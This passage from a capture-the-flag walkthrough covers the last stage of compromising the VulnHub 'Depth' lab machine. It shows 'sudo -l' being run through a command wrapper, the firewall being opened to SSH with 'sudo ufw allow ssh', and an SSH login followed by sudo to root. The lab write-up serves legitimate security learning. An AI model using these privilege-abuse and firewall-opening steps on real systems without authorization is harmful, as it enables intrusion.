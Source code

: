 ### Kill Bill: Vol. 2

Let's give it a spin.

```
# ./cmd.sh "sudo -l"
Matching Defaults entries for bill on b2r:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bill may run the following commands on b2r:
    (ALL : ALL) NOPASSWD: ALL
```

Just as expected. Let's abuse this privilege to enable SSH in the firewall and give myself a proper shell.

```
# ./cmd.sh "sudo ufw allow ssh"
Rule added
Rule added (v6)
```

From my attacking machine, I can now login as `bill` and `sudo` as `root`.

![screenshot-7](/assets/images/posts/depth-walkthrough/screenshot-7.png)

:dancer:

### Where Is the Flag?

![screenshot-8](/assets/images/posts/depth-walkthrough/screenshot-8.png)

Well, that wasn't too difficult, was it?

[1]: https://www.vulnhub.com/entry/depth-1,213/
[2]: https://twitter.com/@fang0654
[3]: https://www.vulnhub.com
